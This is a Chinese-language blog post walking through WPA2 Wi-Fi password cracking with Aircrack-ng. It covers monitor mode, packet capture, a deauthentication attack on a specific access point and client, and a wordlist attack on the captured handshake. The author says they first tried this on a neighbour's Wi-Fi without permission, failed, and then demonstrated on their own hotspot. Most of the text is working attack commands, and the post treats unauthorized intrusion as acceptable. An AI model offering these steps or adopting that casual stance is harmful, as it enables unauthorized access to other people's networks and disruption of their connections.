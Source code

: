 ```yaml
---
title: 使用Aircrack-ng破解WPA2加密的wifi密码
date: 2020-02-11 18:59:04
tags: [linux]
---
```


## 写在前面
现在是 2020 年 2 月 11 日，正是武汉病毒的爆发期间，全面禁止出门
今天才 11 号，手机流量早已经限速，完全没法使用了，我可以不出门，但不能没有网
所以，打算破解看看邻居家的 wifi 密码，可惜邻居家的 wifi 密码太复杂，使用我的密码字典没有跑出来
但是方法是没问题的，下面就以我自己手机开出的热点为目标 wifi 来攻击一下，记录一下这个过程

## 开工
打开一篇以前收藏的[文章](https://www.cnblogs.com/york-hust/archive/2012/07/07/2580340.html)

#### 更新 Aircrack-ng
```
airodump-ng-oui-update
```

#### 打开无线网卡
```
sudo ifconfig wlp3s0 up
```

#### 激活无线网卡为监听模式
```
sudo airmon-ng start wlp3s0
```

#### 探测无线网络，抓取无线数据包
```
sudo airodump-ng wlp3s0mon
```

探测结果大概是这样的
![](https://static.ifthat.com/public/data/51eaa6989f2bacea-2020-02-11_18-02.png)
找到目标 wifi 的chanal，这里我破解的是 honor 7X， ch 为 11  
![](https://static.ifthat.com/public/data/be6de0a4075ca775-2020-02-11_18-11.png)
```
sudo airodump-ng -c 11 -w longas wlp3s0mon
```
-c channel 
-w 保存文文件的前缀

#### 找到 两台正在使用的 MAC

![](https://static.ifthat.com/public/data/6ea0d974ded680e1-2020-02-11_18-14.png)
执行上面命令的终端不要关，下面另开一个终端

#### 攻击
```
sudo aireplay-ng -0 5 -a F0:0F:EC:6E:A8:AB -c 4C:6B:E8:B2:50:4C wlp3s0mon
```
-a 目标mac 
-c 客户端mac

刚才那个 终端出现这样的提示表示攻击成功,可以关闭这个终端了
![](https://static.ifthat.com/public/data/3534a3929bff257d-2020-02-11_18-21.png)
当前文件夹会出现这个文件
![](https://static.ifthat.com/public/data/d2abef363c1a50ab-2020-02-11_18-21_1.png)

#### 使用字典破解
```
sudo aircrack-ng -w /mnt/windows-source/Data/破解字典/弱口令集/wordlist.txt longas-01.cap
```
-w 字典文件
![](https://static.ifthat.com/public/data/1784f82430b9c5eb-2020-02-11_18-23.png)
这里选择4

#### 破解成功

![](https://static.ifthat.com/public/data/c9f6b9d8a0df4f98-2020-02-11_18-24_1.png)

#### 最后停止无线网卡监听
```
sudo airmon-ng stop wlp3s0mon
```

## 参考资源
https://www.cnblogs.com/york-hust/archive/2012/07/07/2580340.html
